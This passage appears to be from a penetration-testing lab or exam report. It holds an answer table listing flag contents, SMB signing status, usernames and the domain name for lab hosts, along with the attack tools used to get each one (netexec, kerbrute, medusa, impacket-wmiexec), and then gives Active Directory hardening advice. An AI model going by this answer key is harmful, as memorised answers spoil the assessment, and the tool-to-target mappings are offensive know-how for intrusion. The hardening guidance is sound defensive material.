| **86** | 50 | `172.25.170.170` | Windows Server version (Year) | `2008` | `netexec smb` (Server 2008 R2) |
| **87** | 50 | `172.25.170.170` | SMB Message Signing status | `Disabled` | `netexec smb (signing:False)` |
| **88** | 50 | `172.25.170.170` | Content of userflag.txt | `WS2008-User` | `medusa smbnt`, `impacket-wmiexec` |
| **89** | 50 | `172.25.170.170` | Content of adminflag.txt | `WS2008-Admin` | `type C:\adminflag.txt` |
| **90** | 50 | `172.25.170.200` | Content of userflag.txt | `Desktop5-user` | `netexec smb`, `type Documents\userflag.txt` |
| **91** | 50 | `172.25.170.200` | Content of rootflag.txt | `Desktop5-root` | `type C:\rootflag.txt` |
| **92** | 50 | `172.25.170.190` | User on 172.25.170.190 starting with 'c' | `cpent` | `kerbrute userenum` |
| **93** | 50 | `172.25.170.190` | User on 172.25.170.190 starting with 'u' | `user-one` | `kerbrute userenum` |
| **94** | 50 | `172.25.170.190` | PowerShell Execution Policy | `RemoteSigned` | `powershell Get-ExecutionPolicy` |
| **95** | 50 | `172.25.170.190` | Content of adminflag.txt | `AD-WIN2019-ADMI` | `type Documents\adminflag.txt` |
| **96** | 50 | `172.25.170.170` | SMB2 Message Signing required/not | `Not Required` | `netexec smb (signing:False)` |
| **97** | 10 | `172.25.170.80` | Domain name of 172.25.170.80 | `ECC.LOCALNET` | `netexec smb` |
| **98** | 50 | `172.25.170.80` | SMB2 Message Signing required/not | `Required` | `netexec smb (signing:True / DC)` |
| **99** | 50 | `172.25.170.80` | Content of adminflag.txt | `WS-AD-TWO-USER` | `kerbrute`, `impacket-wmiexec` |

---

## 4. Senior Red Team Remediation & Security Hardening

1. **Kerberos Service Principal Name (SPN) Hardening:**
   * Enforce strong passphrases (minimum 25 characters) or migrate critical services to Group Managed Service Accounts (gMSA) with automatic Kerberos password rotation.
   * Disable `UF_DONT_REQUIRE_PREAUTH` across all accounts to mitigate AS-REP Roasting threats.

2. **SMB Message Signing Enforcement:**
   * Enforce `Digitally sign communications (always)` via Group Policy Objects (GPO) across all domain member servers and workstations (specifically legacy Windows Server 2008 / 2012 nodes) to completely nullify NTLM Relay attacks.

3. **Active Directory Password Policies:**
   * Implement strict Account Lockout Thresholds after 5 invalid attempts to prevent password spraying tools (e.g. Kerbrute/Medusa) and ban common passwords (`Pa$$w0rd`, `Pa$$w0rd123`).

4. **File ACL & Ownership Integrity:**
   * Restrict `WRITE_OWNER` and `Take Ownership` NTFS user rights on critical files and directories to prevent unauthorized privilege elevation via ACL modification.
